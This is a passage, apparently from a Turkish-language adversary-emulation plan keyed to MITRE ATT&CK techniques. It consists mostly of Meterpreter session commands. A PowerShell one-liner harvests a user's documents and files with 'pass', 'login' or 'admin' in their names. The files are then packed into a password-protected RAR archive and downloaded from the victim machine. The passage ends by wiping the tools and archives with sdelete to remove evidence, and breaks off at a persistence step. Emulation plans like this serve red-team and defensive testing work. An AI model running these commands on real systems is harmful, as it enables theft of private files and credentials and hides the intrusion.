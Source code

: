 [meterpreter\*] > `execute -f powershell.exe -i -H`

[meterpreter (PowerShell)\*] >

```powershell
$env:APPDATA;$files=ChildItem -Path $env:USERPROFILE\ -Include *.doc,*.xps,*.xls,*.ppt,*.pps,*.wps,*.wpd,*.ods,*.odt,*.lwp,*.jtd,*.pdf,*.zip,*.rar,*.docx,*.url,*.xlsx,*.pptx,*.ppsx,*.pst,*.ost,*psw*,*pass*,*login*,*admin*,*sifr*,*sifer*,*vpn,*.jpg,*.txt,*.lnk -Recurse -ErrorAction SilentlyContinue | Select -ExpandProperty FullName; Compress-Archive -LiteralPath $files -CompressionLevel Optimal -DestinationPath $env:APPDATA\working.zip -Force
```

[meterpreter (PowerShell)\*] > `cd C:\Windows\Temp`

[meterpreter (PowerShell)\*] > `.\Rar.exe a -hpfGzq5yKw "$env:USERPROFILE\Desktop\working.zip" "$env:APPDATA\working.zip"`

[meterpreter (PowerShell)\*] > `exit`

[meterpreter\*] > `download "C:\\Users\\<username>\\Desktop\\working.zip" .`

#### 9.3. Indicator Removal on Host: File Deletion ([T1107](https://attack.mitre.org/versions/v6/techniques/T1107/) / [T1070.004](https://attack.mitre.org/techniques/T1070/004/))

[meterpreter\*] > `shell`

[meterpreter (Shell)\*] > `cd "C:\Windows\Temp"`

[meterpreter (Shell)\*] > `.\sdelete64.exe /accepteula "C:\Windows\Temp\Rar.exe"`

[meterpreter (Shell)\*] > `.\sdelete64.exe /accepteula "C:\Users\<username>\AppData\Roaming\working.zip"`

[meterpreter (Shell)\*] > `.\sdelete64.exe /accepteula "C:\Users\<username>\Desktop\working.zip"`

[meterpreter (Shell)\*] > `del "C:\Windows\Temp\sdelete64.exe"`

**Oturum sonlandırılır.**

[meterpreter (Shell)\*] > `exit`

[meterpreter\*] > `exit`

msf> `exit`


### Adım 10: Kalıcılık Yürütme

İlk kurban farklı bir zamanda sistemini yeniden açtığında bu aktivite, yeni hizmetin ([T1035](https://attack.mitre.org/versions/v6/techniques/T1035/) / [T1569.002](https://attack.mitre.org/techniques/T1569/002/)) ve Windows Başlangıç klasöründeki ([T1060](https://attack.mitre.org/versions/v6/techniques/T1060/) / [T1547.001](https://attack.mitre.org/techniques/T1547/001/)) payload'un yürütülmesi gibi önceden kurulmuş kalıcılık mekanizmalarını tetikler. Başlangıç klasöründeki payload, çalınan bir token ([T1106](https://attack.mitre.org/techniques/T1106/), [T1134](https://attack.mitre.org/versions/v6/techniques/T1134/) / [T1134.002](https://attack.mitre.org/techniques/T1134/002)) kullanarak bir sonraki payload'u yürütür.

**Prosedür:**
